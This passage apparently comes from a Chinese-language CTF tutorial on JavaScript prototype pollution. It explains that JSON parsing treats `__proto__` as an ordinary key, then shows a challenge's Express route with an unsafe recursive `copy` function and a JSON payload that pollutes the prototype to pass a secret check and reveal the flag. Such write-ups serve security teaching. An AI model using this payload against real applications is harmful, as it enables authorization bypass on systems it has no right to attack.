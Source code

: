 ```js
//输出1 2 2，原型链被污染
```
因为在json解析下，`__proto__`是一个真正的键名，而不代表原型，后面遍历o2时也能正常获取键名。
## 例题：
### 1
```js
router.post('/', require('body-parser').json(),function(req, res, next) {

  res.type('html');

  var flag='flag_here';

  var secert = {};

  var sess = req.session;

  let user = {};

  utils.copy(user,req.body);

  if(secert.ctfshow==='36dboy'){

    res.end(flag);

  }else{

    return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  

  }

});
```
因为存在`utils.copy`函数
```js
function copy(object1, object2){

    for (let key in object2) {

        if (key in object2 && key in object1) {

            copy(object1[key], object2[key])

        } else {

            object1[key] = object2[key]

        }

    }

  }
```
所以有原型链污染
传入payload：
```json
{
    "username": "a",
    "__proto__": {
        "ctfshow": "36dboy"
    }
}
```
